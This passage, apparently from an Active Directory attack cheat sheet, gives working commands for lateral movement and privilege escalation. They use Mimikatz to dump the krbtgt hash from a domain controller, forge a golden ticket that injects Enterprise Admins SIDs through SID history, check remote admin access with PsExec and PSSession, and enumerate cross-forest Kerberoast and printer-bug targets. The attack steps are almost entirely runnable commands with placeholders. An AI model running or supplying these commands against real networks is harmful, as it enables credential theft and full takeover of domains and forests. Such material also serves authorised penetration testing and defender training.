 #### Check access to server
```
dir \\<FQDN PARENT DC>\C$ 
Enter-PSSession <COMPUTERNAME>
.\PsExec64.exe \\<COMPUTERNAME> cmd
```

### Krbtgt hash
- Abuses SID History
#### Get krbtgt hash from dc
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

#### Create TGT and inject in current session
- The mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for the Forest Enterprise Admin Group
- ```Get-DomainGroup "Enterprise Admins" -Domain <TARGET DOMAIN> | select samaccountname, objectsid```
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```

#### Check access to server
```
dir \\<FQDN PARENT DC>\C$ 
Enter-PSSession <COMPUTERNAME>
.\PsExec64.exe \\<COMPUTERNAME> cmd
```

## Crossforest attacks
### Kerberoast2
#### Enumerate users with SPN cross-forest
```
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName} 
```

#### Request and crack TGS see:
See [Kerberoast](#Kerberoast) 

### Printer bug2
-  It also works across a Two-way forest trust with TGT Delegation enabled!

#### Check if TGTDelegation is enabled (run on DC)
```
netdom trust <CURRENT FOREST> /domain:<TRUSTED FOREST> /EnableTgtDelegation
```

See [Printer Bug](#Printer-bug) for exploitation
